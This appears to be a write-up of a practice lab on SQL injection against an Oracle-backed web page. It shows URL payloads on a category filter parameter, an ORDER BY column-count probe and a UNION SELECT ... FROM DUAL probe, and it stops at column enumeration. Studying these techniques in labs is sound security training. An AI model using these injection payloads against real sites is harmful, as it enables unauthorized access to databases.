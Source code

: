 

---

### LAB 6 - SQL injection attack, listing the database contents on Oracle

### Lab Description
![image](https://github.com/user-attachments/assets/fa6151fa-d244-4ae9-abd8-ef26c1c04e44)

### Solution


## Initial Observations
- The table displays 2 values:
  1. The description
  2. The content of the post

![image](https://github.com/user-attachments/assets/d071bf01-3e1d-45e1-b838-6d689b5b92be)

### Basic Payloads
These payloads are valid for displaying:
- The 4 posts in Gifts
- All items in the second query

```
/filter?category=Pets'--
/filter?category=Pets'+or+1=1--
```


### Determine number of columns -

Order by 3 throws a error which means there are 2 columns.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

![image](https://github.com/user-attachments/assets/5684093a-49cb-4272-9ae9-669a7470b4ac)



### Determine column with text data

Here we use the `DUAL` table which is by defaut present in ORACLE databse

Both columns have text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'abc','def' FROM DUAL--
```
![image](https://github.com/user-attachments/assets/9ca47b44-5980-46b1-84e7-eed80ecc8590)
